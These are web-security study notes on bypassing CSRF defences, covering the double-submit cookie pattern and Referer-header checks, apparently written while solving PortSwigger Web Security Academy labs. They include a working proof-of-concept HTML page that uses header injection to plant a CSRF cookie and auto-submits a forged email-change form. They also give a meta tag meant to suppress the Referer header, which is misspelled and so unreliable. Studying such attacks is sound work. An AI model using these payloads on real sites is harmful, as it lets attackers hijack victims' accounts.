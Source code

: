 ## CSRF token is simply duplicated in a cookie
- some application do not maintain any server-side record of tokens that have beed issued, but instead duplicate each token within a cookie and a request parameter.
- when the subsequent request is validated, the application simply verifies that the token submitted in the request parameter is matches the value submitted in the cookie.
- this is also called `Double submit Defence against CSRF` and is advocated because it is somple to implement and avoids the need for any server-side state
```js
POST /email/change HTTP/1.1
Host: vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=sdmkjsy9hnieyhve8y;
csrf=jesdf748rueknarewehfb

csrf=jesdf748rueknarewehfb&email=hello@dk.net
```
**EXploit code:**
```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac441ffa1e9b108f808b1906006c00ce.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="DK&#64;9510" />
      <input type="hidden" name="csrf" value="JgPNA6FsPgVwJm6uAYRgguGGox5BRLBQ" />
      <input type="submit" value="Submit request" />
    </form>
   <img src="https://ac441ffa1e9b108f808b1906006c00ce.web-security-academy.net/?search=hello%0d%0aSet-Cookie:%20csrf=JgPNA6FsPgVwJm6uAYRgguGGox5BRLBQ" onerror="document.forms[0].submit();"/>
  </body>
</html>
```
here also we have set-cookie-injection vuln that we set arbitrary cookie to the user

# Referer-based Defenses against CSRF
- some Application make use of `HTTP Referer` header to attempt to defend against CSRF attacks, Normally by verifying that the request originated from the application's own domain.
- this also can be bypassed 
## validation of referer Depends on Header being present or not
- some application validate the referer header when it is present, but skip the validation if the header is omitted or removed
- in this situation, attacker can craft their CSRF exploit in a way that cause the victim user's browser to drop the `Referer: ` header in the resulting request.
- there is various way to achieve this but easiest way is using `META` tag
```js
<meta name="refferer" content="never"/>
```
